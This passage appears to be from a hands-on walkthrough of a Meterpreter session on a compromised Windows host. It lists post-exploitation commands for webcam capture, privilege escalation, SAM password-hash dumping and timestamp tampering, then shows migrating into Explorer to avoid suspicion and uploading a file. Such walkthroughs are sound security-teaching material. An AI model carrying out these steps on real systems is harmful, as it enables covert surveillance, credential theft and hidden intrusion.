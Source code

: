 ``` plain
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes
```

The first thing I will do is migrate to the Windows Explorer process, because a stray Notepad might look suspicious. I got the PID from doing a *ps*:

``` plain
meterpreter > migrate 1408
[*] Migrating from 988 to 1408...
[*] Migration completed successfully.
meterpreter > getpid
Current pid: 1408
```

So let's now play with the available functionality. I made a file that I will upload to the hacked machine:

``` plain
meterpreter > background
[*] Backgrounding session 5...
msf exploit(ms11_003_ie_css_import) > echo 'HA HA HA' > read.txt
[*] exec: echo 'HA HA HA' > read.txt

meterpreter > upload /root/read.txt C:\
[*] uploading  : /root/read.txt -> C:\
[*] uploaded   : /root/read.txt -> C:\\read.txt
meterpreter > cd C:\
meterpreter > cat read.txt
HA HA HA
```
